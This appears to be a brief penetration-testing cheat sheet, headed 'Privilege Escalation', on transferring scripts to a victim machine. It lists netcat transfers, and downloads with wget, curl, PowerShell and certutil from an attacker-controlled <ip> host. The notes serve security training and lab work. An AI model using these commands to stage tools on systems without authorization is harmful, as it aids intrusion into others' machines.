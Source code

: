 # Privilege Escalation

## Transfer Scripts

### Start Local Server:

#### Apache2

- Copy scripts to `/var/www/html`
- `sudo systemctl start apache2`

#### SimpleHTTPServer

- `python -m SimpleHTTPServer <port>`

### Download Scripts:

#### Linux 

#### Without Server:

- Victim: `nc -nvlp <port> > <script>`
- Attacker: `nc -nv <ip> <port> < <script>`

#### With Server: 

- `wget http://<ip>/<script>`
- `curl http://<ip>/<script> -o <script>`

#### Windows

#### With Server:

- `Invoke-WebRequest http://<ip>/<script> -OutFile <script>`
- `certutil.exe -urlcache -split -f "http://<ip>/<script>" <script>`
